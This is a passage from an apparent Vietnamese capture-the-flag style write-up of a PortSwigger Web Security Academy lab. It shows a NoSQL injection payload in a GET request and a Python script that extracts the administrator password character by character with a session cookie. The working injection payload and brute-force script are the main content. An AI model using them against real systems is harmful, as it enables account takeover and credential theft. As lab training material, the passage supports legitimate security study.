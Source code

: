 ```username=admin&password=123```
    else:
        print(f"[-] {length} is not length's password")
```

![alt text](./img/lab3-5.png)

==>Biết được độ dài password là 8

-Giờ bắt đầu tìm các kí tự của nó với:

```GET /user/lookup?user=administrator'+%26%26+this.password[0]%3d%3d'a'%00```

Script brute-force password:

```python
import requests
baseurl = "https://0af6002a04d65f4a80af4e2c0019008d.web-security-academy.net"
cookies = {"session": "rTjetHn3Ds9gzq3biYGjAKbGjWhF1y9b"}
charset = "abcdefghijklmnopqrstuvwxyz"
password = ""
for pos in range(1, 8):
    for char in charset:
        payload = f"administrator'+%26%26+this.password[{pos}]%3d%3d'{char}'%00"
        url = f"{baseurl}/user/lookup?user={payload}"
        r = requests.get(url, cookies=cookies)
        if "administrator" in r.text:
            print(f"[+] Found charector in {pos} position: {char}")
            password += char
            break
        
        else:
            print(f"[-] {char} is not true char in {pos} position")
            
print(password)
```

==>Lấy pass và login là xong.


## Lab: Exploiting NoSQL operator injection to extract unknown fields

